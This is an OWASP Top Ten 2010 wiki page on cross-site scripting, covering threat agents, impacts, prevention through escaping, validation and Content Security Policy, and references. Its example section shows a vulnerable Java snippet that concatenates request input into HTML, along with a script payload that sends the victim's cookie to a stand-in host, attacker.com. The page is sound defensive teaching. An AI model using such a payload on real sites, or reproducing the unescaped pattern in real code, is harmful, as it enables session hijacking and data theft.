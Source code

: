 `    <td ``>Consider anyone who can send untrusted data to the system, including external users, internal users, and administrators.`

</td>

`    <td ``>Attacker sends text-based attack scripts that exploit the interpreter in the browser. Almost any source of data can be an attack vector, including internal sources such as data from the database.`

</td>

`    <td colspan=2 ``>`[`XSS`](Cross-site_Scripting_\(XSS\) "wikilink")` is the most prevalent web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. There are three known types of XSS flaws: 1) `[`Stored`](Cross-site_Scripting_\(XSS\)#Stored_XSS_Attacks "wikilink")`, 2) `[`Reflected`](Cross-site_Scripting_\(XSS\)#Reflected_XSS_Attacks "wikilink")`, and 3) `[`DOM``
 ``based``   ``XSS`](DOM_Based_XSS "wikilink")`.`

`Detection of most XSS flaws is fairly easy via testing or code analysis.`

</td>

\<td \>Attackers can execute scripts in a victim’s browser to hijack
user sessions, deface web sites, insert hostile content, redirect users,
hijack the user’s browser using malware, etc.

</td>

\<td \>Consider the business value of the affected system and all the
data it processes.

Also consider the business impact of public exposure of the
vulnerability.

</td>

You need to ensure that all user supplied input sent back to the browser
is verified to be safe (via input validation), and that user input is
properly escaped before it is included in the output page. Proper output
encoding ensures that such input is always treated as text in the
browser, rather than active content that might get executed.

Both static and dynamic tools can find some XSS problems automatically.
However, each application builds output pages differently and uses
different browser side interpreters such as JavaScript, ActiveX, Flash,
and Silverlight, which makes automated detection difficult. Therefore,
complete coverage requires a combination of manual code review and
manual penetration testing, in addition to any automated approaches in
use.

Web 2.0 technologies, such as AJAX, make XSS much more difficult to
detect via automated tools.  Preventing XSS requires keeping untrusted
data separate from active browser content.

1.  The preferred option is to properly escape all untrusted data based
    on the HTML context (body, attribute, JavaScript, CSS, or URL) that
    the data will be placed into. Developers need to include this
    escaping in their applications unless their UI framework does this
    for them. See the [OWASP XSS Prevention Cheat
    Sheet](XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet "wikilink")
    for more information about data escaping techniques.
2.  Positive or “whitelist” input validation is also recommended as it
    helps protect against XSS, but is not a complete defense as many
    applications must accept special characters. Such validation should
    decode any encoded input, and then validate the length, characters,
    and format on that data before accepting the input.
3.  Consider employing Mozilla’s new [Content Security
    Policy](https://developer.mozilla.org/en/Introducing_Content_Security_Policy)
    that is coming out in Firefox 4 to defend against XSS.

The application uses untrusted data in the construction of the following
HTML snippet without validation or escaping:
<span style="color:red;">(String) page += "〈input name='creditcard'
type='TEXT‘ value='" + request.getParameter("CC") + "'〉";</span> The
attacker modifies the ‘CC’ parameter in their browser to:
<span style="color:red;">'〉〈script〉document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie〈/script〉'.</span>
This causes the victim’s session ID to be sent to the attacker’s
website, allowing the attacker to hijack the user’s current session.

Note that attackers can also use XSS to defeat any automated CSRF
defense the application might employ. See [A5 for info on
CSRF](Top_10_2010-A5 "wikilink").

  - [OWASP XSS Prevention Cheat
    Sheet](XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet "wikilink")
  - [OWASP Cross-Site Scripting
    Article](Cross-site_Scripting_\(XSS\) "wikilink")
  - [ESAPI Encoder
    API](http://owasp-esapi-java.googlecode.com/svn/trunk_doc/latest/org/owasp/esapi/Encoder.html)
  - [ASVS: Output Encoding/Escaping Requirements
    (V6)](http://www.owasp.org/index.php/ASVS#tab=Downloads)
  - [ASVS: Input Validation Requirements
    (V5)](http://www.owasp.org/index.php/ASVS#tab=Downloads)
  - [Testing Guide: 1st 3 Chapters on Data Validation
    Testing](Testing_for_Data_Validation "wikilink")
  - [OWASP Code Review Guide: Chapter on XSS
    Review](Reviewing_Code_for_Cross-site_scripting "wikilink")

<!-- end list -->

  - [CWE Entry 79 on Cross-Site
    Scripting](http://cwe.mitre.org/data/definitions/79.html)
  - [RSnake's XSS Attack Cheat Sheet](http://ha.ckers.org/xss.html)
  - [Firefox 4’s Anti-XSS Content Security Policy
    Mechanism](https://developer.mozilla.org/en/Introducing_Content_Security_Policy)

[Category:OWASP Top Ten
Project](Category:OWASP_Top_Ten_Project "wikilink")